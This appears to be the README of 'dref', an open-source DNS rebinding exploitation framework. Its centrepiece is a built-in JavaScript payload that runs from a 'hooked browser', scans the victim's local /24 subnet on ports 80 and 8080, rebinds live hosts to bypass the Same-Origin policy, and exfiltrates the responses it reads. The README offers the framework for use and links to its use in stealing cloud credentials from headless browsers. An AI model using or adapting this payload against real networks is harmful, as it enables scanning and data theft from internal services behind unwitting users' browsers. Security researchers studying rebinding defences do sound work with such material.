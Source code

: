 test1
<dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/logo.png">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <img src="https://travis-ci.com/mwrlabs/dref.svg?branch=master">
    <img src="https://codecov.io/gh/mwrlabs/dref/branch/master/graph/badge.svg">
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.svg">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/diagram.png">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [built-in payloads](https://github.com/mwrlabs/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/mwrlabs/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet(24)

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, {
      successCb: (code, headers, body) => {
        // ... and exfiltrate it
        session.log({code: code, headers: headers, body: body})
      }
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/exfiltrated.png">
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/arrow-bottom-right.png">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started or check out [dref attacking headless browsers](https://labs.mwrinfosecurity.com/blog/from-http-referer-to-aws-security-credentials/) for a practical use case.

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
